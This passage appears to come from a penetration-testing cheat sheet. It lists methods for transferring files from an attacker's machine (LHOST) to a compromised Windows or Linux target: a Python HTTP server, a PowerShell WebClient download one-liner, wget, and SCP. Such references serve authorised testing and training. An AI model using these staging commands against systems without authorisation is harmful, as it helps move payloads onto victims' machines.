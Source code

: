 ##

### Method 6 (Powershell) | Linux -> Windows

On **LOCAL**:

```
# python -m SimpleHTTPServer <LPORT>

or

# python3 -m http.server <LPORT>
```

On **TARGET**:

```
PS C:> powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<LHOST>:<LPORT>/<FILE_NAME>', 'C:\Users\Public\Downloads\<FILE_NAME>')"
```

##

### Method 7 (Browser) | Linux -> Windows

If there's a RDP or VNC connection, use browser on navigating the files.

##

### Method 8 (Standard wget) | Linux -> Linux

On **LOCAL**:

```
# python -m SimpleHTTPServer <LPORT>

or

# python3 -m http.server <LPORT>
```

On **TARGET**:

```
# wget http://<LHOST>:<LPORT>/<FILE_NAME>
```

##

### Method 9 (SCP) | Linux -> Linux

On **LOCAL**:

```
# scp <FILE_NAME> <USERNAME>@<RHOST>:/<REMOTE_DIR>
```

##

